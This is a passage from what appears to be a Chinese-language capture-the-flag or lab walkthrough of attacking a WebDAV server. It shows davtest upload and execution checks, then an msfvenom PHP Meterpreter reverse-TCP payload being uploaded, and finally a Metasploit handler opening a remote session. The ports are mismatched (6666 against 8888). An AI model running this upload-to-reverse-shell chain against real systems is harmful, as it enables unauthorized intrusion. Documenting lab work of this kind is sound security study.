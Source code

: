```shell
PUT     shtml   SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.shtml
PUT     jhtml   SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.jhtml
PUT     aspx    SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.aspx
PUT     jsp     SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.jsp
PUT     html    SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.html
PUT     txt     SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.txt
PUT     pl      SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.pl
PUT     asp     SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.asp
PUT     cfm     SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.cfm
********************************************************
 Checking for test file execution
EXEC    php     SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.php
EXEC    cgi     FAIL
EXEC    shtml   FAIL
EXEC    jhtml   FAIL
EXEC    aspx    FAIL
EXEC    jsp     FAIL
EXEC    html    SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.html
EXEC    txt     SUCCEED:        http://10.0.2.4:8585/uploads/DavTestDir_TUv6QRb/davtest_TUv6QRb.txt
EXEC    pl      FAIL
EXEC    asp     FAIL
EXEC    cfm     FAIL
```

检测发现可以上传php文件

生成攻击载荷并上传：

```shell
(root💀kali)-[~]
└─$ msfvenom -p php/meterpreter_reverse_tcp LHOST=10.0.2.15 LPORT=6666 -f raw >demon.php

(root💀kali)-[~]
└─$ davtest -url http://10.0.2.4:8585/uploads/ -uploadfile demon.php -uploadloc DavTestDir_12ja05EL/66.php
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.0.2.4:8585/uploads
********************************************************
 unless  Uploading file
```

```shell
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
payload => php/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.2.15
LHOST => 10.0.2.15
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.15:8888 
[*] Meterpreter session 1 opened (10.0.2.15:8888 -> 10.0.2.4:49914 ) at 2021-12-22 06:41:03 -0500
```
